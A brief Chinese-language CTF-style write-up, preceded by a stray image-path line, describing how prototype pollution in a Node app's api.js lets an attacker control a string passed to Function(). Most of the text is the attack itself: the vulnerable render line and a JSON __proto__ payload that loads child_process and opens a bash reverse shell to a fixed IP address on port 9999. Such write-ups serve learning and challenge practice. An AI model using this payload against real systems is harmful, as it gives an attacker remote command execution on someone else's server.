 # 知识点
# 思路
api.js中Function中的query我们可以通过原型链污染来任意执行命令
```php
res.render('api', { query: Function(query)(query)});
```
```php
{"__proto__":{"query":"\nglobal.process.mainModule.constructor._load('child_process').exec('bash -c \"bash -i >& /dev/tcp/101.43.225.132/9999 0>&1\"')//"}}
```
